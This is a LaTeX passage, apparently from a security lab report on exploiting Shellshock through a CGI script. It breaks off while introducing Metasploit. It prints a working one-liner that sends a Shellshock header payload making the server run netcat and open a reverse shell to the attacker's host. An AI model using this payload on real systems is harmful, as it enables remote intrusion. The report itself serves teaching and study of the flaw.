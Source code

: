  \begin{figure} [ht]
    \centering
    \includegraphics[width=\columnwidth]{../pictures/echo-vulnerable.png}
    \caption{Server returning vulnerable}
    \label{fig:echo-vulnerable}
\end{figure}

It's cumbersome to send a http request every time. Instead lets establish a reverse shell. That enables the attacker to write shell code in his terminal as if he was on the server. This can be done with theinput: \\
\textbf{\textit{echo -e "HEAD /cgi-bin/status HTTP/1.1\textbackslash r\textbackslash nShellshock: () \{ :;\}; /usr/bin/nc 10.0.2.6 443 -e /bin/sh\textbackslash r\textbackslash nHost: vulnerable\textbackslash r\textbackslash nConnection: close\textbackslash r\textbackslash n\textbackslash r\textbackslash n" | nc 10.0.2.9 80}}\\

This uses netcat to bind the attackers shell to 10.0.2.9/cgi-bin/status. Furthermore the server will bind its shell to 10.0.2.6:443, which is the attacker. The attacker first needs to bind the port, and then he is ready. The reverse shell can be seen on figure \ref{fig:reverse-shell}.

\begin{figure} [ht]
    \centering
    \includegraphics[width=\columnwidth]{../pictures/reverse-shell.png}
    \caption{Reverse shell}
    \label{fig:reverse-shell}
\end{figure}

As this is a known exploit there is tools developed to ease this process. Offensive Security's msfconsole\cite{metasploit} has many exploits gathered and there is also tooling for shellshock. First we configure various parameters, this is shown on figure \ref{fig:msfconsole-init}     

